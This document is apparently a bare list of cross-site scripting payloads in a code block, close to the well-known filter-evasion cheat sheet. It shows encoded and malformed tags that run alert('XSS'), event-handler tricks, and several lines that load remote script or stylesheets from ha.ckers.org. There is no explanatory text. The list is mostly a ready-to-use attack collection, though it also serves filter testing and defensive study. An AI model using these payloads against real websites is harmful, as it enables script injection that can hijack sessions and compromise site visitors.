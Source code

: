 ```
<IMG SRC=&#x6A&#x61&#x76&#x61&#x73&#x63&#x72&#x69&#x70&#x74&#x3A&#x61&#x6C&#x65&#x72&#x74&#x28&#x27&#x58&#x53&#x53&#x27&#x29>

<IMG SRC="jav ascript:alert('XSS');">

<IMG SRC="jav&#x09;ascript:alert('XSS');">

<IMG SRC="jav&#x0A;ascript:alert('XSS');">

<IMG SRC="jav&#x0D;ascript:alert('XSS');">

<IMG SRC=" &#14; javascript:alert('XSS');">

<SCRIPT/XSS SRC="http://ha.ckers.org/xss.js"></SCRIPT>

<BODY onload!#$%&()*~+-_.,:;?@[/|\]^`=alert("XSS")>

<SCRIPT/SRC="http://ha.ckers.org/xss.js"></SCRIPT>

<<SCRIPT>alert("XSS");//<</SCRIPT>

<SCRIPT SRC=http://ha.ckers.org/xss.js?< B >

<SCRIPT SRC=//ha.ckers.org/.j>

<IMG SRC="javascript:alert('XSS')"

<iframe src=http://ha.ckers.org/scriptlet.html <

\";alert('XSS');//

</script><script>alert('XSS');</script>

</TITLE><SCRIPT>alert("XSS");</SCRIPT>

<INPUT TYPE="IMAGE" SRC="javascript:alert('XSS');">

<BODY BACKGROUND="javascript:alert('XSS')">

<IMG DYNSRC="javascript:alert('XSS')">

<IMG LOWSRC="javascript:alert('XSS')">

<STYLE>li {list-style-image: url("javascript:alert('XSS')");}</STYLE><UL><LI>XSS</br>

<IMG SRC='vbscript:msgbox("XSS")'>

<IMG SRC="livescript:[code]">

<BODY ONLOAD=alert('XSS')>

<BGSOUND SRC="javascript:alert('XSS');">

<BR SIZE="&{alert('XSS')}">

<LINK REL="stylesheet" HREF="javascript:alert('XSS');">

<LINK REL="stylesheet" HREF="http://ha.ckers.org/xss.css">

<STYLE>@import'http://ha.ckers.org/xss.css';</STYLE>

<META HTTP-EQUIV="Link" Content="<http://ha.ckers.org/xss.css>; REL=stylesheet">

```
